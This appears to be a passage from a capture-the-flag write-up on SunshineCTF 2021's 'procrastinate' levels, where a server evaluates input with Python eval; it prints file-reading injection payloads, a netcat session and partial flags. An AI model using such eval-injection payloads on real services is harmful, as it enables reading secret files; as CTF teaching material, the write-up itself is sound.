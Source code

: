 The above clearly indicates that we need to somehow exploit the vulnerability in the usage of
**`eval`** command to read the **`./key`** file. Given that **`builtins`** module is not restricted
it is really easy to do. We can use the below payload to read the file and spill the details as the
file open method is part of the **`builtins`** module.  
```python
open("./key","r").read()
```

On sending this payload to this level, we get the below response:
```sh
sun{eval_is

If you completed part 1 of the challenge...

Your princess is in another castle! 🔥🏰🔥

procrastinate-castle.chal.2021.sunshinectf.org 65001 holds your next clue.
```  

So clearly the first part of the flag is **`sun{eval_is`** and we need to move on to the next level,
in the new url. On connecting to this server we are greeted with the below message that asks us
to enter the previous levels partial flag. Once done we can enter our expression to be evaluated.  

```sh
┌──(cryptonic㉿cryptonic-kali)-[~/CTFs/sunshinectf/procrastinate]
└─$ nc procrastinate.chal.2021.sunshinectf.org 65001
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due 
to technical difficulties with the last challenge, I've upped my ante! Now I know it's secure!  

I'm super secure, and can use most python math!  
I just use `eval(client_input, \{\}, safe_math_functions)` on your data and then whamo, python  
does all the work!Whatever you do, don't look at my ./key!

Halt in the name of the law!

What was the ./key found in the previous challenge?

sun{eval_is
Give me an equation please!
```  

The greeting message shows us clearly that an empty dict is used for the second parameter of the
**`eval`** method. This is no different than sending **`None`** for the parameter which means we
can use an almost similar payload.  

This time I used the payload below and got the subsequent response.
```python
print(open("./key", "r").read())
```

```sh
_safe_


If you completed part 2 of the challenge...

You need sequels. MORE SEQUELS!! 🔥🏰🔥

procrastinate-sequel.chal.2021.sunshinectf.org 65002 holds your next clue.
```


[1]: https://ctftime.org/team/2500
[2]: https://ctftime.org/event/1430
[3]: https://en.wikipedia.org/wiki/Base64
[4]: https://github.com/Ganapati/RsaCtfTool
[5]: https://amritabi0s.wordpress.com/2017/12/17/inctf-2017-rsa-1s-fun-writeup/comment-page-1/
[6]: https://docs.sympy.org/latest/modules/core.html?highlight=gcd#sympy.core.numbers.Number.gcd
[7]: https://gcdn.pbrd.co/images/UpCUChV0D0sj.gif?o=1
[8]: https://pequalsnp-team.github.io/writeups/common_modulus
[9]: https://docs.python.org/3.8/library/functions.html#eval
[10]: https://docs.python.org/3.8/library/functions.html#exec
[11]: https://docs.python.org/3.8/library/builtins.html
[12]: https://gcdn.pbrd.co/images/p2LbJZx0aIoU.gif?o=1